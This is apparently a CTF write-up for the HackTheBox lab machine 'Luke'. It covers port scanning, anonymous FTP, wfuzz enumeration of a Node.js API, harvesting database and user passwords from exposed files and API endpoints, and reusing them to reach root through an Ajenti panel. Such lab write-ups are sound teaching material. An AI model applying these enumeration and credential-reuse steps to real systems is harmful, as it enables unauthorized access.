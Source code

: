 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-05-25-luke-hackthebox
tags:
- ajanti
- hackthebox
- linux
- node
title: Luke @ HackTheBox
---
```


Luke is a rather short, easy machine on hackthebox, which was nonetheless fun to solve and our team got both first bloods here.

## User & Root Flag

We start with a quick tcp port scan and see the following open ports:

```
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.16.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  ssh?
| ssh-hostkey:
|   2048 6b:14:c2:13:8f:58:8e:29:ca:c4:19:83:fc:2f:f1:ad (RSA)
|   256 a3:85:67:47:26:f4:67:b0:e1:d5:9f:98:5e:c9:c2:53 (ECDSA)
|_  256 48:3f:98:4e:ea:ed:2b:d2:2f:4d:0b:ea:8b:2c:21:dc (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
|_http-title: Luke
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti
```

There is a web page on port 80, an ajenti web application on port 8000 and a mysterious node.js application on port 3000. Also we have ftp, which we try to login first. Since it accepts anonymous connections, we can get in and grab a hint that was left for us:

```
Dear Chihiro !!

As you told me that you wanted to learn Web Development and Frontend, I can give you a little push by showing the sources of
the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of our security policies !

Derry
```

We start running gobuster against all 3 web ports and browse a bit around manually while waiting for results. The most promising application for the initial foothold seems to be the node.js application on port 3000. We fuzz the application for entry points:

```
wfuzz --hc 404 -w ~/tools/SecLists/Discovery/Web-Content/raft-small-words.txt http://10.10.10.137:3000/FUZZ
...
000009:  C=200      0 L           2 W       13 Ch    "login"
000205:  C=200      0 L           5 W       56 Ch    "users"
...
```

On "/" and "/users" we are told, that we miss an authorization token and on "/login" it says "please auth". We do not have any credentials yet to auth with but this will be important later on.

Meanwhile gobuster has found some interesting files: on port 80 we have a config.php with the following contents:

```
/config.php (Status: 200)
$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword = 'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error); 
```

With this password, we can now try to play with the node.js application again. We try a few usernames and finally log into the application as "admin":

![](htb_luke_nodejslogin.png)

One thing to watch out for here is to set the content type to "application/json" – if you don’t do that you will get "400 Bad Request". We set the Authorization header to the token we just obtained and query the users endpoint we saw earlier to get the following output:

```
/users

[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

We can now retrieve more detailed information about every user:

```
/users/<username>

{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

After some trial and error we log into the app on port 80 on "/management" as Derry with the password we just acquired. We get a directory listing, showing a file called "config.json" with the following (heavily shortened) output:

```
...
"{\"projects\": \"KGxwMQou\\n\"}"
password    "KpMasng6S5EtTy9Z"
```

With this new password we can now log into the ajenti app on port 8000 as "root". For me this did not load properly on firefox and chromium on my linux vm, so I had to use my windows 10 vm for ajanti to finally load up. We can now just start a terminal and read both flags, as we are root.

Many thanks to [h4d3s](https://twitter.com/@h4d3s99) for creating the box.